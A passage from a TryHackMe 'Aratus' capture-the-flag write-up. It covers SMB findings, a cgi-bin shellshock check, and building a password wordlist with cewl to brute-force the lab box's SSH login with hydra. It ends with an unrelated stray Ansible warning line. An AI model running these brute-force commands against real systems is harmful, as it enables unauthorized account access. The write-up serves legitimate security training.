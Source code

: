 "get message-to-simeon.txt" to get it onto your machine.

```
┌──(root💀kali)-[~/Documents/thm/aratus]
└─# cat message-to-simeon.txt 
Simeon,

Stop messing with your home directory, you are moving files and directories insecurely!
Just make a folder in /opt for your book project...

Also you password is insecure, could you please change it? It is all over the place now!

- Theodore
```

Before following this up, gobuster ended and it found /cgi-bin, since I've done a few rooms with cgi bin exploits I ran 

https://www.exploit-db.com/exploits/34900

to see if there was anything we could exploit.
It found nothing so we continued looking into the message from above.


Okay, so reading into this I decided to see if ip/simeon offered anything in my browser and it turns out that is where Simeon's book is.

Continued to get all of the chapters and reading them, they all turned out to be lorem ipsum.

```
Also you password is insecure, could you please change it? It is all over the place now!
```

This hinted me that "all over the place" might mean throughout lorem ipsum since it is everywhere.

You could make a wordlist out of one of the text files you got from the SMB service using:

```
cat text1.txt | tr ' ' '\n' > output.txt
```
or you could use cewl with simeon's home directory from the website:

```
┌──(root💀kali)-[~/Documents/thm/aratus]
└─# cewl http://10.10.102.251/simeon/ > wordlist.txt

```
So now that we have a wordlist and a username, we can try to bruteforce it.


```
┌──(root💀kali)-[~/Documents/thm/aratus]
└─# hydra -l simeon -P ~/Documents/thm/aratus/wordlist.txt ssh://10.10.102.251
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-03-26 13:37:52
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 207 login tries (l:1/p:207), ~13 tries per task
[DATA] attacking ssh://10.10.102.251:22/
[22][ssh] host: 10.10.102.251   login: simeon   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-03-26 13:37:59
```
Now we can login through ssh as Simeon!


[WARNING]: Consider using 'become', 'become_method', and 'become_user' rather than running sudo